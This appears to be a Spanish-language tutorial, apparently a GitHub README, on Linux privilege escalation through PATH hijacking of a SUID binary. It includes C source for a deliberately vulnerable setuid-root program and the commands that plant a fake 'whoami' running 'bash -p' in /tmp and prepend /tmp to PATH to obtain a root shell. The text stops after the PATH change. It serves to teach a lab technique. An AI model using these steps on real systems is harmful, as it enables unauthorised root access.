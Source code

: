 # Hijacking | Secuestro
El hijacking consiste en dueñarse o robar algo por parte de un atacante.

## Path hijacking

El path hijacking como su nombre lo indica, se refiere al secuestro del path. <br>

El PATH es una variable de entorno que contiene la dirección absoluta de los binarios que se ejecutarán respecto al usuario en sesión. <br>

## Ruta relativa | Ruta relativa

Ruta absoluta: <br>
- Se indica toda la ruta del archivo incluyendo el directorio raíz. Por ejemplo: <br>
```
/bin/ls
```
Ruta relativa: <br>
- se indica la ruta a partir de donde este en ese momento situado. Por ejemplo, si se ejecuta 'ls', la ruta será:
```
/usr/bin/ls
```

## El PATH

Para realizar la explotación de la vulnerabilidad se modificaré el PATH del sistema. <br>
El PATH contiene la información de la ruta, de las variables a las que se accede. <br>
Es el caso de la ruta relativa, cuando se ejecuta 'ls', el path hace referencia al binario ubicado en '/usr/bin/ls' <br>

## Vulnerabilidad

La explotación consciste en modificar el PATH, para que en lugar de ejecutar la ruta relativa, utilicé la ruta absoluta como root. <br>

Para este documentó se hará aprovechandose de un binario creado por root, y con persmisos SIUD.

## Creando binario SUID (set user id)

Crearemos nuestro propio binario que ejecutará un 'whoami' escrito en C. Llamado 'programa.c'

```
#include <stdio.h>

void main(){

   setuid(0);

   printf("Ejecutando con el usuario: (/usr/bin/whoami): ruta absoluta\n");
   system("/usr/bin/whoami");

   printf("Ejecutando con el usuario: (whoami): ruta realtiva\n");
   system("whoami");
}
```
El comando setuid(0), es porque por defecto, cuando se trata de escalar privilegios en programa escrito en C, deshabilita la posibilidad de escalar con el SUID 0, ya que es el de root.<br>
Entonces estableciendo ese comando, se pude realizar el escalamiento. <br>

Una vez creado, se compila. Se debe hacer con el usuario root, o posteriormente cambiar el propietario y el grupo al que pertenece.
```
# Sin ser el usuario root pero con permisos de sudo
gcc programa.c -o binario
sudo chown root:root binario
sudo chmod 4755 binario

# Siendo el usuario root
gcc programa.c -o binario
chmod 4755 binario
```
Y debería verse de la siguiente forma usando ls -la
```
-rwsrwxr-x. 1 root root 25224 Mar 30 18:11 binario
```

## Explotando vulnerabilidad - Path Hijacking & SUID

A través del programa export, se pueden definir la variables del sistema. <br>
Se utilizará export para modificar el PATH. <br>

Pero antes de hacerlo, debemos crear un fichero que contenga el comando con el que escalaremos aprovechando SUID. <br>

```
cd /tmp
touch whoami
chmod 755 whoami
echo "bash -p" > whoami
```
De esa forma nos devolverá una shell con privilegios de root. <br>
Ahora volvemos a la ruta del binario, y se modificará el PATH: <br>
```
cd -
export PATH=/tmp:$PATH
```
El comienzo del path, se debería ver de la siguiente forma usando echo $PATH
```
/tmp:/usr/local/bin ...
```
